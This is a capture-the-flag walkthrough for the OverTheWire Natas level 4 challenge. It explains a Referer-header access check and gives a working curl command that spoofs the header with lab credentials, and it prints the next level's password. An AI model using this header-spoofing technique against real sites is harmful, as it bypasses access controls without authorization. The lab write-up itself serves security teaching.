

# Natas Level 4 -> Level 5 Walkthrough

## Challenge Information
* Target URL: http://natas4.natas.labs.overthewire.org
* Vulnerability: Client-Side HTTP Header Manipulation (Referer Header Bypass)
* Goal: Retrieve the password for Natas 5.

## Vulnerability Analysis
The server restricts access based on the HTTP Referer request header, expecting requests to originate only from http://natas5.natas.labs.overthewire.org/. Because HTTP request headers are fully controlled by the client, relying on them for server-side access control is insecure.

## Exploitation Methodology
1. Constructed an HTTP GET request with a spoofed Referer header pointing to http://natas5.natas.labs.overthewire.org/.
2. Executed the authenticated request via curl:

curl -s -u natas4:JDrPnuZAKyl6MkiqQGFIddrqpvgOASth -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/

## Proof

## Extracted Credentials
* Natas 5 Password: e4z2Noy3oqwPJUWzJH0dseN67Cn1sy2M
